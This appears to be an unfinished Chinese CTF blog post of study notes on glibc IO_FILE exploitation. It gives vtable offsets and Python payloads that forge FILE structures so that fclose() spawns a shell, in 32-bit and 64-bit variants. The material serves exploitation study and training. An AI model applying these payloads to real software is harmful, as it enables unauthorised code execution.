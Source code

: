 ```yaml
---
title: IO_FILE ALl_in_one
date: 2018-11-06 20:46:15
tags:
---
```

IO_FILE 总结 未完成...
<!--more-->
# Start
最近看到HItcon2018的babytcache发现IO_FILE还是博大精深，之前对于IO_FILE的理解还是十分稚嫩只知道orange和普通的利用...
尔后又看了老钟的博客感觉IO_FILE神奇的很! 收获满满
[老钟博客传送点][1]
开始自己动手把lowkey师傅的课件的题探索一遍...
感觉lowkey师傅的课件还是循循善诱当时基础太差没领会其中奥妙...
开始写前膜一波angelboy lowkey zs0zrc
# 0x00 IO_FILE Basic
像是一些我們熟悉的gets puts 都和IO_FILE有关
基础部分之前在[echo][2]和[orange][3]介绍过一些就不介绍了

# 0x01 fclose()_getshell

在32bit系统中，_IO_jump_t的偏移是0x94，64bit系统中偏移是0xE8

64位:
* 存在后门情况
```python
payload='\x00'*0x10+p64(sh)+"\x00"*0x70+p64(buf)
payload=payload.ljust(0xd8,'\x00')+p64(buf)
payload=payload.ljust(0x100)#充填防髒數據
```
* 不存在后门情况
```python
payload="/bin/sh".ljust(0x10,'\x00')+p64(system)+"\x00"*0x70+p64(buf+0x20)#此处地址上值为0
payload=payload.ljust(0xd8,'\x00')+p64(buf+0x10-0x88)
payload=payload.ljust(0x100,'\x00')#防止脏数据
```

32位：
伪造IO_FILE_plus结构体, 32位和64位不一样，32位的需要伪造vtable,而64位可以不用伪造vtable，因为64位的在绕过几个函数后会获得一次call [rax + 0x10]的机会（zs0zrc）
```python
#存在後門sh use_IO_new_fclose
payload="".ljust(0x48,'\x00')+p32(buf)+p32(sh)
payload=payload.ljust(0x94,'\x00')+p32(buf+0x4c-0x8)
payload=payload.ljust(0x100,"\x00")
#不存在後門情況 use __fclose
payload="/bin/sh".ljust(0x48,'\x00')+p32(buf+8)+p32(system)#0ff 0x48 處指向地址值位0
payload=payload.ljust(0x94,'\x00')+p32(buf-0x44+0x4c)
payload=payload.ljust(0x100,"\x00")

```




[1]:https://www.jianshu.com/p/a6354fa4dbdf
[2]:https://n132.github.io/IO-FILE-IO-buf-base/
[3]:https://n132.github.io/house-of-orange/


